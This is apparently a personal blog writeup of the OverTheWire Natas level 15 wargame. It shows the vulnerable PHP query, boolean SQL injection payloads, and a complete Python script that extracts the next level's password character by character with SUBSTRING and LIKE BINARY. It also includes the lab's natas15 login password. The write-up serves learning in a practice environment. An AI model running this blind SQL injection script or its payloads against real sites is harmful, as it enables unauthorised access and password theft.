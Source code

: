 ```yaml
---
layout: post
title: Natas15 Writeup
categories:
  - CTF writeups
  - natas
tags:
  - beginner
  - sqli
  - script
description: First writeup! On OverTheWire Natas Wargame 15
date: 2024-10-25 22:49 -0400
---
```


### First Glance

Looking at the source code:

```php
if(array_key_exists("username", $_REQUEST)) {
    ...

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    ...
```

### Attack Vector

In line 3, there would be our SQL injection point as `username` field
is the only way to manipulate the query.

Also by looking at line 11, if the query returns at least 1 row, we
would have an indicator that our query is true (`The user exists`).

So for the first try, I made this query:

> `" OR 1=1 #`

(Using `#` for comment as only that worked in natas14), which worked pretty nicely.

### Where I got stuck

Then I tried a few things, knowing the username is natas16 and the password length
is 32 by comparing the previous passwords. We got another query:

> `natas16" AND SUBSTRING(password, 1, 1) = "a" #`

This query worked for the most part, I placed it in the script to get all
the characters, even verified it with the SQLi by placing the whole password in there.
But here comes the problem, why can't I get authorized to the next stage?

### Solution

Then I did some more research, found out that there's a SQL Keyword called `LIKE`,
where you can combine with `%` to check if the word start with that. Also when combined
with `BINARY` it can check case sensitive. Hence we have the final script:

```python
import requests
from requests.auth import HTTPBasicAuth
from halo import Halo


url = "http://natas15.natas.labs.overthewire.org/index.php"
username = "natas15"
password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"
auth = HTTPBasicAuth(username, password)
charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
pw_len = 32

passwd = ""


with Halo(text="Enumerating", spinner="dots") as loading:
    loading.start()
    print("\n")
    for i in range(1, pw_len + 1):
        for char in charset:
            # Move cursor up two lines and clear them before printing the new update
            print("\033[F\033[K\033[F\033[K", end="")

            data = {
                "username": f'natas16" AND SUBSTRING(password, {i}, 1) LIKE BINARY "{char}%" #'
            }

            print(f"Password: {passwd}\nQuery: {data}")

            r = requests.post(url, auth=auth, data=data)
            if "exists" in r.text:
                passwd += char
                break

print(f"Final password: {passwd}")

```
